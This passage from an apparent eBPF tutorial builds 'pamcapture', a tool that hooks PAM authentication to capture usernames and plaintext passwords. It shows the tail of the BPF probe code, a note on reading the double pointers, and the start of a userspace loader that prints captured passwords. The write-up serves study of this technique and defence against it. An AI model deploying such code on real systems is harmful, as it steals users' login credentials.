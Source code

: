 ```c
        return 0;
    evt->pid = pid;
    bpf_get_current_comm(&evt->comm, sizeof(evt->comm));
    bpf_probe_read_user(evt->username, sizeof(evt->username), (const void *)user_addr);
    bpf_ringbuf_submit(evt, 0);
    return 0;
}
```
First, we defined `struct event` and then created two `BPF_MAP_TYPE_HASH` maps to process and hold the username and password passed by the functions. Since `**authtok` and `**user` are pointers to pointers, we need to call `bpf_probe_read_user` twice to correctly read the values.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <signal.h>
#include <stdarg.h>
#include <bpf/libbpf.h>
#include <bpf/bpf.h>
#include "pamcapture.skel.h"

#define MAX_PW_LEN 128
struct event {
    int  pid;
    char comm[16];
    char password[MAX_PW_LEN];
    char username[64];
};

static int handle_event(void *ctx, void *data, size_t data_sz)
{
    struct event *evt = data;
    printf("\n---- PAM Password capture ----\n");
    if (evt->username[0] == '\0') {
	    printf("\n---- PAM Password captured ----\n");
    	printf("PID: %d, COMM: %.*s, Password: %s\n", evt->pid, 16, evt->comm, evt->password);
    } else {
    printf("\n---- PAM Uusername capture ----\n");
    printf("PID: %d, username = %s\n", evt->pid,evt->username);
   }
    return 0;
}

static int libbpf_print_fn(enum libbpf_print_level level, const char *format, va_list args)
{
    return vfprintf(stderr, format, args);
}

int main(int argc, char **argv)
{
    struct pamcapture *skel = NULL;
    struct ring_buffer *rb = NULL;
    int err;

    libbpf_set_print(libbpf_print_fn);

    skel = pamcapture__open();
    if (!skel) {
        fprintf(stderr, "Failed to open BPF skeleton\n");
        return 1;
    }

```
